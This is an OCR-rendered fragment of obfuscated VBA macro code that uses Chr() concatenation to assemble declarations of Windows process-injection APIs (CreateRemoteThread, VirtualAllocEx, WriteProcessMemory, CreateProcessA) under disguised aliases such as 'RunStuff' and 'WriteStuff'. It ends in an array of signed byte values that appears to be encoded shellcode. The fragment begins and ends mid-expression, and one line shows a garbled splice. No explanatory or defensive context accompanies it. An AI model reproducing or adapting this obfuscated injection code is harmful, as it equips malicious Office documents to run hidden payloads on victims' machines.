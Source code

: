 ```vba
"s As Lon"&"g"&Chr(10)&"    dwFi"&"llAttrib"&"ute As L"&"ong"&Chr(10)&"    dwFl"&"ags As L"&"ong"&Chr(10)&"    wSho"&"wWindow "&"As Integ"&"er"&Chr(10)&"    cbRe"&"served2 "&"As Integ"&"er"&Chr(10)&"    lpRe"& _
"served2 "&"As Long"&Chr(10)&"    hStd"&"Input As"&" Long"&Chr(10)&"    hStd"&"Output A"&"s Long"&Chr(10)&"    hStd"&"Error As"&" Long"&Chr(10)&"End Type"&Chr(10)&Chr(10)&Chr(35)&"If VBA7 "&"Then"&Chr(10)& _
"    Priv"&"ate Decl"&"are PtrS"&"afe Func"&"tion Cre"&"ateStuff"&" Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"CreateRe"&"moteThre"&"ad"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"&"s Long"&Chr(44)& _
" ByVal l"&"pThreadA"&"ttribute"&"s As Lon"&"g"&Chr(44)&" ByVal d"&"wStackSi"&"ze As Lo"&"ng"&Chr(44)&" ByVal l"&"pStartAd"&"dress As"&" LongPtr"&Chr(44)&" lpParam"&"eter As "&"Long"&Chr(44)&" ByVal d"& _
"wCreatio"&"nFlags A"&"s Long"&Chr(44)&" lpThrea"&"dID As L"&"ong"&Chr(41)&" As Long"&"Ptr"&Chr(10)&"    Priv"&"ate Decl"&"are PtrS"&"afe Func"&"tion All"&"ocStuff "&"Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "& _
Chr(34)&"VirtualA"&"llocEx"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"&"s Long"&Chr(44)&" ByVal l"&"pAddr As"&" Long"&Chr(44)&" ByVal l"&"Size As "&"Long"&Chr(44)&" ByVal f"&"lAllocat"&"ionType "&"As Long"& _
Chr(44)&" ByVal f"&"lProtect"&" As Long"&Chr(41)&" As Long"&"Ptr"&Chr(10)&"    Priv"&"ate Decl"&"are PtrS"&"afe Func"&"tion Wri"&"teStuff "&"Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"WritePro"& _
"cessMemo"&"ry"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"&"s Long"&Chr(44)&" ByVal l"&"Dest As "&"LongPtr"&Chr(44)&" ByRef S"&"ource As"&" Any"&Chr(44)&" ByVal L"&"ength As"&" Long"&Chr(44)&" ByVal L"& _
"engthWro"&"te As Lo"&"ngPtr"&Chr(41)&" As Long"&"Ptr"&Chr(10)&"    Priv"&"ate Decl"&"are PtrS"&"afe Func"&"tion Run"&"Stuff Li"&"b "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"CreatePr"&"ocessA"&Chr(34)& _
" "&Chr(40)&"ByVal lp"&"Applicat"&"ionName "&"As Strin"&"g"&Chr(44)&" ByVal l"&"pCommand"&"Line As "&"String"&Chr(44)&" lpProce"&"ssAttrib"&"utes As "&"Any"&Chr(44)&" lpThrea"&"dAttribu"&"tes As A"&"ny"& _
Chr(44)&" ByVal b"&"InheritH"&"andles A"&"s Long"&Chr(44)&" ByVal d"&"wCreatio"&"nFlags A"&"s Long"&Chr(44)&" lpEnvir"&"onment A"&"s Any"&Chr(44)&" ByVal l"&"pCurrent"&"Director"&"y As Str"&"ing"&Chr(44)& _
" lpStart"&"upInfo A"&"s STARTU"&"PINFO"&Chr(44)&" lpProce"&"ssInform"&"ation As"&" PROCESS"&"_INFORMA"&"TION"&Chr(41)&" As Long"&Chr(10)&Chr(35)&"Else"&Chr(10)&"    Priv"&"ate Decl"&"are Func"&"tion Cre"& _
"ateStuff"&" Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"CreateRe"&"moteThre"&"ad"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"&"s Long"&Chr(44)&" ByVal l"&"pThreadA"&"ttribute"&"s As Lon"&"g"&Chr(44)& _
" ByVal d"&"wStackSi"&"ze As Lo"&"ng"&Chr(44)&" ByVal l"&"pStartAd"&"dress As"&" Long"&Chr(44)&" lpParam"&"eter As "&"Long"&Chr(44)&" ByVal d"&"wCreatio"&"nFlags A"&"s Long"&Chr(44)&" lpThrea"&"dID As L"& _
"ong"&Chr(41)&" As Long"&Chr(10)&"    Priv"&"ate Decl"&"are Func"&"tion All"&"ocStuff "&"Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"VirtualA"&"llocEx"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"& _
"s Long"&Chr(44)&" ByVal l"&"pAddr As"&" Long"&Chr(44)&" ByVal l"&"Size As "&"Long"&Chr(44)&" ByVal f"&"lAllocat"&"ionType "&"As Long"&Chr(44)&" ByVal f"&"lProtect"&" As Long"&Chr(41)&" As Long"&Chr(10)& _
"    Priv"&"ate Decl"&"are Func"&"tion Wri"&"teStuff "&"Lib "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"WritePro"&"cessMemo"&"ry"&Chr(34)&" "&Chr(40)&"ByVal hP"&"rocess A"&"s Long"&Chr(44)&" ByVal l"& _
"Dest As "&"Long"&Chr(44)&" ByRef S"&"ource As"&" Any"&Chr(44)&" ByVal L"&"ength As"&" Long"&Chr(44)&" ByVal L"&"engthWro"&"te As Lo"&"ng"&Chr(41)&" As Long"&Chr(10)&"    Priv"&"ate Decl"&"are Func"&"tion Run"& _
"Stuff Li"&"b "&Chr(34)&"kernel32"&Chr(34)&" Alias "&Chr(34)&"CreatePr"&"ocessA"&Chr(34)&" "&Chr(40)&"ByVal lp"&"Applicat"&"g"&Chr(44)&Chr(45)&"79"& _ 
Chr(44)&"116"&Chr(44)&"94"&Chr(44)&Chr(45)&"80"&Chr(44)&"2"&Chr(44)&"72"&Chr(44)&Chr(45)&"22"&Chr(44)&"17"&Chr(44)&Chr(45)&"7"&Chr(44)&Chr(45)&"58"&Chr(44)&"33"&Chr(44)&Chr(45)&"14"&Chr(44)&"113"&Chr(44)& _ 
"127"&Chr(44)&"119"&Chr(44)&"127"&Chr(44)&"26"&Chr(44)&"76"&Chr(44)&"37"&Chr(44)&"2"&Chr(44)&Chr(45)&"38"&Chr(44)&Chr(45)&"38"&Chr(44)&"96"&Chr(44)&Chr(45)&"44"&Chr(44)&Chr(45)&"18"&Chr(44)&Chr(45)&"102"& _ 
```